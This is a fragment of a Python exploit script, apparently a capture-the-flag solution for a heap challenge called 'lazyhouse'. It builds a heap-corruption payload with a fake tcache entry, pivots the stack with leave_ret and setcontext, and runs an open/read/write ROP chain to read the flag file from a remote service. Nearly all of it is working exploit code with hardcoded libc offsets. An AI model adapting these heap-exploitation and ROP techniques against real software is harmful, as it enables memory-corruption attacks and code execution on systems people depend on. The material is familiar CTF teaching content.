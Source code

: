 ```python
    payload += p64(0)+p64(0x511)+p64(libc.address+0x1e50d0)+p64(target_addr)+p64(heap_base+0xb80+0x420)*2+'x'*0x4e0
    payload += p64(0)+p64(0x90)+'x'*0x80
    flag_name = "\x00/home/lazyhouse/flag\x00".ljust(0x30,"\x00")
    payload += fake_tcache+flag_name+"f"*0x20+(0xa0 * '\x00' + p64(new_stack) + p64(poprdi+1)).ljust(0x100, "\x00")


    rop_chain = [
        0,
        poprsi,
        0,
        poprdi,
        flag_str,
        poprax,
        2,
        syscall,  # open

        xchgeaxedi,
        poprdxrsi,
        0x60,
        flag_buf,
        poprax,
        0,
        syscall,  # read

        poprdi,
        1,
        poprdxrsi,
        0x60,
        flag_buf,
        poprax,
        1,
        syscall,  # write
    ]

    payload += flat(rop_chain)

    payload = payload.ljust(0x1340,"x")
    buy(1, 0x1340, payload)

    setcontext = 0x55e35 + libc.address
    leave_ret = 0x58373 + libc.address
    r.recvuntil('choice') # buy super
    r.sendline('5')
    r.sendlineafter("House:", p64(leave_ret))

    buy(5, new_stack, "China No.1")

    return flag

if __name__ == '__main__':
    print exploit(host)
    r.interactive()
```
